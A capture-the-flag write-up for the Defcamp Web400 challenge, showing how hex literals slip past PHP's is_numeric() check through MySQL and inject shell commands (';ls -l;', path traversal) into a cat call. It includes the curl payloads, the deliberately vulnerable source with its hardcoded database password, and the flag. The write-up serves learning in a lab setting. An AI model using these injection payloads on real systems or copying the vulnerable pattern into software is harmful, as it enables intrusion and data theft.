 # Defcamp CTF - Web400


The website of the challenge is only displaying user number and their associated picture... Looking at the code we can see 

- For user 1 the picture src field is : `?id=1&usr=1`
- For user 2 the picture src field is : `?id=2&usr=2`
- ...

Strange... Do not think too fast to a SQLi (because it's not gonna be one) and let's try playing a little with `curl` and GET parameters : 

```bash
$> curl "http://10.13.37.5/?id=2&usr=1"
cat: images/2_6.jpg: No such file or directory
```
Ohhh... There is a direct call to `cat` from PHP. Let's try to make index.php source code appear :

```bash
$> curl "http://10.13.37.5/?id=../index.php;&usr=1"
ID or User ID must be numeric, obviously. Cheers from Bucharest, awesome girls, smoke free. :-) 
[...]
```

Ok, the "is_numeric()" PHP function is certainely used. Let's try playing with float numbers :

```bash
$> curl "http://10.13.37.5/?id=2.1123213&usr=1"
cat: images/2.1123213_6.jpg: No such file or directory
```
Nice but not very useful. As I know of, there is no direct bypassing technique for the "is_numeric()" function, except when used in combination with MySQL (quite common) which support Hex Literals... So let's try with an hexadecimal number :

```bash
$> curl "http://10.13.37.5/?id=0x1&usr=1"
cat: images/_6.jpg: No such file or directory
```
The hexadecimal number given in parameter seem to be interpreted and don't appear anymore.

Now we can try with "../index.php" in hexadecimal : 

```bash
$> curl "http://10.13.37.5/?id=0x2e2e2f696e6465782e7068703b&usr=1"
cat: images/../index.php_6.jpg: No such file or directory
```

Yeah ! but we have to remove "_6.jpg", since we are in a shell we can just add  ";" (0x3b) :

```bash
$> curl "http://10.13.37.5/?id=0x2e2e2f696e6465782e7068703b&usr=1"
```

Nice ! We have the index.php source code :

```php
<?php

// ini_set('display_errors',1);
// error_reporting(E_ALL);

mysql_connect('localhost','w400', 'lajsflkjaslfjasklfj10412497128') or die('neah');
mysql_select_db('w400');

if(isset($_GET['id'], $_GET['usr'])) {

    if(!is_numeric($_GET['id']) || !is_numeric($_GET['usr'])) {
        die('ID or User ID must be numeric, obviously. Cheers from Bucharest, awesome girls, smoke free. :-) <br><img src="data:image/jpeg;base64,........... }

    $q = mysql_query('SELECT concat('.$_GET['id'].',"_",image) as path FROM images WHERE id="'.$_GET['usr'].'"');
    $path = mysql_result($q, 0);

    header('Content-Type: image/jpeg');
    echo shell_exec("cat images/$path 2>&1");
} else {
    echo '<h1>List of some users! I don\'t know CSS! :(</h1>';
    $q = mysql_query('SELECT * FROM `images`');
    while($row = mysql_fetch_array($q)) {
        echo '<h3>'.$row['user'].'</h3>';
        echo '<img src="?id='.$row['id'].'&usr='.$row['id'].'">';
    }
}
sh: 1: _6.jpg: not found

```

Nothing interesting in the source code so let's try a ";ls -l;" : 

```bash
$> curl "http://10.13.37.5/?id=0x3b6c73202d6c3b&usr=1"
total 32
-rw-r--r-- 1 root root    38 Oct  1 22:14 6e8218531e0580b6754b3e3be5252873.txt
drwxrwxr-x 2 root root  4096 Oct  1 22:14 images
-rw-r--r-- 1 root root 21392 Oct  1 22:17 index.php
sh: 1: _6.jpg: not found
```

Done ! We only have to get 6e8218531e0580b6754b3e3be5252873.txt (by using `HTTP://x.x.x.x/6e8218531e0580b6754b3e3be5252873.txt` or with `cat` in the command injection...)

**DCTF{19b1f9f19688da85ec52a735c8da0dd3}**